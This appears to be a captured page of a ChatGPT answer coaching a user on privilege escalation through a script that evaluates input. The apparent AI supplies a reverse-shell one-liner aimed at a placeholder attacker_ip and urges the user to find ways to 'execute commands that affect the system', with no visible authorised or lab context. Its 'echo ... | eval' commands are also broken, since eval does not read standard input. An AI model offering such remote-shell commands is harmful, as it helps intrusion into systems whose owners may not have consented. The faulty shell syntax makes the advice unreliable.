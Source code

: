 Use the Script for Indirect Command Execution:  
Even though /var/log/feedback.txt is a symlink to /dev/null, the script might allow you to execute commands indirectly. Try to leverage the environment or any other writable location.

Leverage File Creation in Writable Directories:  
Check if you can create files in directories where you have write permissions. For example, creating a new script or file in a directory writable by your user.

Examples to Test:  
Test Basic Command Execution:

echo 'echo "Privilege Escalation Test" \> /tmp/testfile.txt' | eval  
Here, you test if the eval executes commands indirectly and creates /tmp/testfile.txt if possible.

Test Other Variables or Constructs:

echo 'bash \-i \>& /dev/tcp/attacker\_ip/port 0\>&1' | eval  
This attempts to create a reverse shell, but make sure to replace attacker\_ip and port with your actual listening server IP and port.

Conclusion:  
Given the constraints and the symlink to /dev/null, focus on testing how eval processes your input and explore indirect command execution. Try to leverage writable directories or other execution vectors. Your goal is to find a way to execute commands that affect the system, even if the direct file output is discarded.

לא נבחר קובץלא נבחר קובץ  
ChatGPT can make mistakes. Check important info. See Cookie Preferences.
